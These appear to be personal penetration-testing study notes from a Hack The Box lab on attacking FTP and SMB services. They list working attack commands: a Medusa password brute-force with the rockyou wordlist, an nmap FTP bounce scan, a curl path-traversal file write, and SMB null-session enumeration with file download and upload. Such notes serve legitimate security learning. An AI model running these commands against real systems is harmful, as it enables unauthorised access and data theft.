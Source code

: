 |                                                                                          |                                             | [sendEmail](https://github.com/mogaal/sendemail)   |                                                                                                                              |
|                                                                                          |                                             | [swaks](http://www.jetmore.org/john/code/swaks/)   |                                                                                                                              |
|                                                                                          |                                             | [sendmail](https://en.wikipedia.org/wiki/Sendmail) |                                                                                                                              |

### <span style="color:#9fef00">  Attack Concept</span>
-------

![[Pasted image 20230601122201.png]]

### <span style="color:#9fef00">  Attacking services</span>
---------
### <span style="color: blue">FTP </span>

Medusa 
```shell
Sauuron@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

### <span style="color :red "> FTP Bounce Attack </span>

```shell
Sauuron@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2 #External ip  #Internal ip
```

#### Latest Ftp Attack 

```shell
Sauuron@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```


### <span style="color: blue">SMB </span>

```shell
Sauuron@htb[/htb]$ smbclient -N -L //10.129.14.128 # Null session

Sauuron@htb[/htb]$ smbmap -H 10.129.14.128

Sauuron@htb[/htb]$ smbmap -H 10.129.14.128 -r notes # Recursive 

Sauuron@htb[/htb]$ smbmap -H 10.129.14.128 --download "notes\note.txt" # Download

Sauuron@htb[/htb]$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt" # Upload
```

### <span style="color: blue">RPC</span>
[cheat sheet from the SANS Institute](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)
